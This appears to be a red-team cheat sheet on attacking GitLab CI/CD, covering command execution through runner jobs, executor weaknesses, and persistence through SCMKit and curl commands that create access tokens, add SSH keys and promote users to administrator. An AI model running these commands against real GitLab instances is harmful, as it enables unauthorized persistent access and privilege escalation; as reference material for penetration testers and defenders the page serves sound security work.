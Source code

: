 # CI/CD - Gitlab CI

GitLab CI (Continuous Integration) is a built-in feature of GitLab that automates the process of building, testing, and deploying your code every time you make a change. It's part of GitLab CI/CD, which stands for Continuous Integration / Continuous Deployment.

## Gitlab Runners

```ps1
sudo apt-get install gitlab-runner
sudo gitlab-runner register
```

| Prompt              | Example Input                                            |
| ------------------- | -------------------------------------------------------- |
| GitLab instance URL | `https://gitlab.com/`                                    |
| Registration token  | Found in your project under `Settings > CI/CD > Runners` |
| Executor            | `shell`, `docker`, etc.                                  |
| Description         | `my-remote-runner`                                       |
| Tags                | `remote`                                                 |

The `.gitlab-ci.yml` file is the configuration file that GitLab CI/CD uses to define your pipelines, jobs, and stages.

### Command Execution Jobs

Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`

```yaml
stages:
    - test

test:
    stage: test
    script:
        - |
            whoami
    parallel:
        matrix:
            - RUNNER: VM1
            - RUNNER: VM2
            - RUNNER: VM3
    tags:
        - ${RUNNER}
```

### List GitLab Runners

List all GitLab runners available to the current user in GitLab.

```ps1
SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
```

## Gitlab Executors

* **Shell** executor: The jobs are run with the permissions of the GitLab Runner’s user and can steal code from other projects that are run on this server.
* **Docker** executor: Docker can be considered safe when running in non-privileged mode.
* **SSH** executor: SSH executors are susceptible to MITM attack (man-in-the-middle), because of missing `StrictHostKeyChecking` option.

## Gitlab CI/CD Variables

CI/CD Variables are a convenient way to store and use data in a CI/CD pipeline, but variables are less secure than secrets management providers.

## Persistence

* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit

### Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

* Manual

    ```ps1
    curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
    ```

* Using `SCMKit.exe`: Create/List/Delete an access token to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```

* Get the assigned privileges to an access token being used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```

### SSH Keys

* Create/List an SSH key to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

### User Promotion

* Promote a normal user to an administrative role in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```

## Tools

* [praetorian-inc/glato](https://github.com/praetorian-inc/glato) - GitLab Attack TOolkit

## References

* [Security for self-managed runners - Gitlab](https://docs.gitlab.com/runner/security/)
